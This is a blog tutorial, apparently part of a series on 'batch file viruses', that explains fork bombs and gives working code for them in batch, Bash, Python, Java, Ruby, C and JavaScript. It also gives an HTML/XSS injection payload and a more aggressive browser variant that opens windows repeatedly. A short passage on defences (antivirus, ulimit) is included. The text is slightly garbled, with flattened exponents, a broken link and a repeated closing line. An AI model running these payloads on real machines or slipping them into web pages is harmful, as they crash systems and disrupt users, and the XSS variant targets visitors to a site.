

The **fork bomb**is the equivalent of a DDoS attack on your own system. It aims to deprive the system of memory (RAM), leaving nothing for other applications or the operating system’s vital operations required to keep the systems running, hence crashing it. Just 5 characters long, the fork bomb is not permanently harmful for a computer, just annoying.

We’re now going to build on the [introduction to batch files](https://blog.leewardslope.com/introduction-to-batch-file-viruses). Make sure you’ve got a [VM all set up and running](https://blog.leewardslope.com/setting-up-a-virtual-machine-to-practice-hacking).

And here is the fork bomb:

```powershell
%0|%0
```

Yes, this is it. The above is a shorter alternative for the following more comprehensible code:

```powershell
:s
start %0
goto s
```

* Here, the first line creates a label `s`.
* `%0` actually refers to the name of the batch file itself. By `start %0` we’re running the same file again.
* And finally `goto s` brings us back to the top, forming a loop.

So every time the loop is run another instance of the same program is started and then both of them run together and again duplicate themselves and so on.



Every program doubling itself is a form of exponential growth. After one iteration of the loop, two programs (21) are created. After another cycle, each of those two create another two for a total of four (22). After 10 iterations we have 1024 (210) instances of our little batch file. After 100 iterations we have 2100=**1.267 nonillion**, a number so big you don’t even know what ‘nonillion’ is (It’s 1030).

The first instance will likely not even complete 50 iterations before the system grinds to a halt and crashes. For such a simple script, each individual iteration would hardly take a few milliseconds, so the first few iterations complete very quickly and soon it becomes more than what the computer can handle.

Is there a way to protect against fork bombs? Yup.

Any antivirus worth it’s salt would be able to scan this suspicious executable file and warn the user before execution. As a fork bomb’s mode of operation is entirely dependent on being able to create new processes, one way of preventing a fork bomb from severely affecting the entire system is to limit the maximum number of processes that a single user may own. On Linux, this can be achieved by using the *ulimit* utility; for example, the command `ulimit -u 30` would limit the affected user to a maximum of thirty owned processes.

And so we have our first little virus under our belt. Head over to[ the next one](https://blog.leewardslope.com/application-flooder) to continue or scroll down if you’re interested in checking out the code for fork bomb in other common languages.

* Bash

  ```shellsession
  :(){ :|:& };:
  ```
* Python

  ```python
   import os
   while 1:
       os.fork()
  ```
* Java

  ```
  public class ForkBomb
  {
    public static void main(String[] args)
    {
      while(true)
      {
        Runtime.getRuntime().exec(new String[]{"javaw", "-cp", System.getProperty("java.class.path"), "ForkBomb"});
      }
    }
  }
  ```
* Ruby

  ```ruby
  loop { fork { load(__FILE__) } }
  ```
* C

  ```c
  #include <unistd.h>

  int main(void)
  {
      while(1) {
        fork(); /* malloc can be used in order to increase the data usage */
      }
  }
  ```
* JavaScript

  ```javascript
  while (true) {
    var w = window.open();
    w.document.write(document.documentElement.outerHTML||document.documentElement.innerHTML);
  }
  ```

  The following version is easier for injection (XSS):

  ```shellsession
  <a href="#" onload="function() { while (true) { var w = window.open(); w.document.write(document.documentElement.outerHTML||document.documentElement.innerHTML); } }">XSS fork bomb</a>
  ```

  And the following is simply a more aggressive version of the above:

  ```shellsession
  <script>
  setInterval(function() {
    var w = window.open();
    w.document.write(document.documentElement.outerHTML||document.documentElement.innerHTML);
  }, 10);
  </script>
  ```

  And so we have our first little virus under our belt. Let's head over to [the next one](https://blog.leewardslope.comapplication-flooder) to continue